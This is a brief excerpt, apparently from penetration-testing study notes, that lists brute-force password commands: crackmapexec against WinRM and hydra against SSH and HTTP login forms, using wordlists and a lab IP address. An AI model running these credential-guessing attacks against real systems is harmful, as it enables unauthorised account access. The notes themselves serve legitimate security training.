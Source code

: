 
- check [services footprinting](https://github.com/kiro6/penetration-testing-notes/blob/main/Penetration%20Testing/Footprinting/Services.md)

```bash
crackmapexec winrm 10.129.42.197 -u user.list -p password.list

hydra -L user.list -P password.list ssh://10.129.42.197

hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form  "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /
```
